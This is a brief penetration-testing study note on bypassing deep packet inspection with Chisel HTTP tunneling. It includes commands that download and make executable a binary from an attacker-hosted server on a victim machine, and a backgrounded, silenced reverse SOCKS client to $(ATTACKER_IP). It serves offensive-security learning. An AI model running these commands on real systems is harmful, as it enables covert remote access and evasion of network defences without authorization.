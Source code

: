 Deep packet inspection devices may be configured to only allow specific transport protocols into, out of, or across the network. For example, a network administrator could create a rule that terminates any outbound SSH traffic. If they implemented that rule, all connections that use SSH for transport would fail, including any SSH port redirection and tunneling strategies we had implemented.
# HTTP Tunneling
If DPI is blocking a lot of stuff, maybe it lets HTTP through?
## Chisel
Chisel does HTTP Tunneling.
### Steps
1. Transfer chisel to target:
```bash
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
```
```bash
gunzip chisel_1.8.1_linux_amd64.gz
```
```bash
python -m http.server 80
```
On target:
```bash
wget $(ATTACKER_IP)/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```
2. Run chisel
Kali:
```bash
chisel server --port 8080 --reverse
```
Victim machine:
```bash
/tmp/chisel client $(ATTACKER_IP):8080 R:socks > /dev/null 2>&1 &
```
3. SSHing through chisel
```bash
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' $(SSH_USER)@$(REMOTE_IP)
```
